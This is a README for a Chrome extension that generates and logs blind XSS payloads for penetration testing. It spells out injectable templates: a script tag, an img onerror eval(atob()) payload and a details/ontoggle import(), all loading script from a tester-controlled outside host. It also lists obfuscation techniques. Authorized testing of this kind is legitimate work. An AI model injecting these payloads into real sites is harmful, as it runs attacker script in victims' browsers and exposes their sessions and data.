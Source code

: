 # Blind XSS Manager

A Chrome extension for managing Blind XSS payloads with a streamlined interface and essential features for security testing.

## 🚀 Features

### Core Functionality
- **4 Essential Payloads** - Carefully selected XSS injection techniques
- **Dynamic Hash Generation** - Unique MD5-based hashes for each URL
- **Real-time URL Capture** - Automatically captures current tab URL
- **Domain Management** - Save and reuse your XSS domains
- **Comprehensive History** - Track all your injection attempts

### Payload Types
- **Script Tag** - Basic script injection technique
- **Image Tag** - Image-based XSS with base64 encoded payload
- **Details Tag** - HTML5 details element injection
- **Polyglot Payload** - Advanced multi-context injection vector

### History Management
- **Search Functionality** - Find specific entries quickly
- **Time-based Filtering** - Filter by today, week, month, or all time
- **Export Options** - Export as CSV, JSON, or TXT
- **Individual Entry Management** - Copy hashes, URLs, or delete specific entries
- **Statistics Dashboard** - View injection metrics

## 📦 Installation

### For Chrome/Chromium-based browsers:

1. Download or clone this repository
2. Open Chrome and navigate to `chrome://extensions/`
3. Enable "Developer mode" in the top right corner
4. Click "Load unpacked" and select the folder containing the extension files
5. The extension should now appear in your extensions list

## 🔧 Manifest V3 Compatibility

This extension uses Manifest V3, making it compatible with the latest versions of Chrome:

- ✅ **Modern Architecture** - Service worker background script
- ✅ **Enhanced Security** - Improved security model
- ✅ **Better Performance** - More efficient resource usage
- ✅ **Future-Proof** - Uses latest Chrome extension APIs

## 🎯 Usage Guide

### Main Interface
1. **Configure Domain** - Enter your XSS domain (e.g., `*.xss.ht`)
2. **Auto-Capture** - Current URL and hash are automatically captured
3. **Generate Payloads** - Payloads are automatically generated with your domain and hash
4. **Copy Payloads** - Copy individual payloads or all at once
5. **View Statistics** - Monitor your injection metrics

### Payload Management
- **Script Tag**: `"><script src=https://domain?n=hash></script>`
- **Image Tag**: `"><img src=x id=base64_encoded onerror=eval(atob(this.id))>`
- **Details Tag**: `-->"//'//></script><details/open/ontoggle="import('https://domain?n=hash')">`
- **Polyglot Payload**: Advanced multi-context injection with various encoding techniques

### History Management
1. **View All Entries** - Complete injection history with timestamps
2. **Search & Filter** - Find specific entries by URL, hash, or domain
3. **Export Data** - Multiple export formats available (CSV, JSON, TXT)
4. **Individual Actions** - Copy hashes, URLs, or delete specific entries
5. **Clear All** - Remove all history entries

## 📁 File Structure

```
Blind-XSS-Manager/
├── manifest.json          # Extension manifest (Manifest V3)
├── popup.html            # Main extension interface
├── popup.js              # Core functionality and payload generation
├── background.js         # Service worker for background tasks
├── content.js            # Content script for web page interaction
├── history.html          # History view interface
├── history.js            # History management functionality
├── icon.png              # Extension icon
└── README.md             # This file
```

## 🔒 Security Features

### Payload Techniques
- **Script Injection** - Direct script tag injection
- **Image-based XSS** - Using image onerror events with base64 encoding
- **HTML5 Elements** - Modern browser features for injection
- **Polyglot Payloads** - Multi-context injection vectors with advanced encoding

### Advanced Techniques
- Base64 encoding for payload obfuscation
- Mixed-case evasion techniques
- Unicode normalization
- Character code obfuscation
- Multi-context compatibility

## ⚙️ Configuration

### Domain Setup
- Enter your XSS domain (e.g., `*.xss.ht`)
- Domain is automatically saved for future use
- Used in all generated payloads

### Hash Generation
- Unique MD5 hash generated for each URL
- Automatically captured from current tab
- Used as nonce parameter in payloads

## 🛠️ Troubleshooting

### Common Issues
1. **Extension won't load**
   - Ensure Developer mode is enabled
   - Check that all files are present
   - Verify Chrome version compatibility

2. **Payloads not generating**
   - Check domain configuration
   - Ensure current URL is accessible
   - Verify extension permissions

3. **History not saving**
   - Check storage permissions
   - Verify sync is enabled
   - Clear and reload extension

### Browser Compatibility
- ✅ Chrome 88+
- ✅ Chromium-based browsers
- ✅ Edge (Chromium)
- ✅ Brave Browser
- ❌ Firefox 

## 📝 License

This project is designed for security testing and penetration testing purposes. Use responsibly and only on systems you have permission to test.

## ⚠️ Disclaimer

This tool is intended for educational and authorized security testing purposes only. Users are responsible for ensuring they have proper authorization before testing any systems. The developers are not responsible for any misuse of this tool.
